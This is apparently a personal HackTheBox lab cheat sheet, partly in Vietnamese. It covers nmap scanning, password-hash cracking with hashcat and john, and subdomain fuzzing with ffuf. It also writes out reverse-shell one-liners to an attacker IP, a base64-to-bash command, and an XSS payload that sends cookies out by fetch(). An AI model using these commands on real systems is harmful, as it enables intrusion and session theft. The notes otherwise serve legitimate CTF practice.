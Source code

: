 # HackTheBox

# nmap

```
nmap -A
nmap -A -p-
```

# set hosts

window: C:\Windows\System32\drivers\etc
linux: /etc/hosts

# hash

`hashid hash.txt` để detect loại hash, xong dùng `hashcat`

- brute force theo định dạng:

```
hashcat -a 3 -m 1400 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```

- brute force theo wordlist:

```
hashcat -a 0 -m 3200 logan.txt /usr/share/wordlists/rockyou.txt
```

- john:

```
john --format=bcrypt --wordlist=$wordlists/passwords/rockyou.txt hash.txt
```

- `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`
- SHA, $salt:$pass, salt là chữ số ($d), dùng cyberchef đổi sang format hex để decrypt:
![image](https://github.com/h2oa/HackTheBox/assets/114990730/79fa4fc2-4317-4575-89bb-cda7a30e106a)
```
hashcat -a 0 -m 120 "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" /usr/share/wordlists/rockyou.txt
```

# ffuf

```
ffuf -c -ic -w /usr/share/wordlists/dirb/big.txt -u http://devvortex.htb  -H "HOST:FUZZ.devvortex.htb" -fs 154
```

# reverse shell

thử hết các dạng :)))

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.74/1337 0>&1'
nc -c sh 10.10.14.74 1337
```

```
echo bHM= |base64 -d|bash
```

- Stabilizing the shell:

```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```

# xss

```
php -S 0.0.0.0:80
python -m http.server 80
<img src=1 onerror=fetch('http://10.10.14.74/'+document.cookie);/>
```

# Kinh nghiệm

- login page: brute force, default account (tùy công nghệ)
- input: SSTI, command injection
- check `/var/mail` lấy thông tin mail nếu có
- fuzz subdomain, directory (`dirb <domain>`), path (`ffuf`)
- vào sqldatase
- `sudo -l` check xem user hiện tại thực hiện được gì với quyền root (search CVE với bất kỳ gì hiện ra trước)
- Thử cả `sudo su` và `su`

